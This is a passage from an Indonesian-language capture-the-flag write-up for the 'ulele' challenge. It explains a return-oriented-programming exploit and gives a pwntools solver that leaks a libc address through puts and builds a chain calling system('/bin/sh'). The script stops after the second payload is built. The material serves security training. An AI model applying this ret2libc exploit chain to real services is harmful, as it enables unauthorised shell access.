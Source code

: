 Kami menggunakan gadget `mov rdi, rbp; nop; pop rbp; ret;` untuk mendapatkan alamat libc.  Yaitu dengan set rbp ke alamat salah satu global offset table dan memanggil `puts`, lalu return ke `_start` agar runtime mengulang kembali dari awal. 
Selanjutnya tinggal ROP untuk panggil system libc. Full solver:

```py
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

PATH = './ulele'

HOST = 'ctf.gemastik.id'
PORT = 1313

def add_song(title, artist, duration):
    r.sendlineafter(b': ', b'1')
    if len(title) < 256:
        title += b'\n'
    if len(artist) < 256:
        artist += b'\n'
    r.sendafter(b': ', title)
    r.sendafter(b': ', artist)
    r.sendlineafter(b': ', f'{duration}'.encode())

def remove_song(idx):
    r.sendlineafter(b': ', b'2')
    r.sendlineafter(b': ', f'{idx}'.encode())

def exploit(r):
    for i in range(99):
        add_song(b'A' * 8, b'B' * 8, 1)

    usefull = 0x401792 # mov rdi, rbp; nop; pop rbp; ret;

    add_song(b'X' * 8, b'Y' * 120 + 
             p64(elf.got.puts) + # rbp
             p64(usefull) + 
             p64(0xdeadbeef) + # rbp
             p64(elf.sym.puts) + 
             p64(elf.sym._start), 
             1)
    
    r.sendlineafter(b': ', b'4') # exit trigger ret
    r.recvline(0)
    
    puts = u64(r.recvline(0).ljust(8, b'\0'))
    libc.address = puts - libc.sym.puts
    
    info(hex(puts))
    info(hex(libc.address))
    remove_song(100)
    
    libc_pop_rdi = next(libc.search(asm('pop rdi; ret')))
    libc_bin_sh = next(libc.search(b'/bin/sh'))
    
    add_song(b'X' * 8, b'Y' * 128 + 
             p64(libc_pop_rdi) + p64(libc_bin_sh) + 
             p64(libc_pop_rdi+1) + # ret
             p64(libc.sym.system), 
             1)
    
```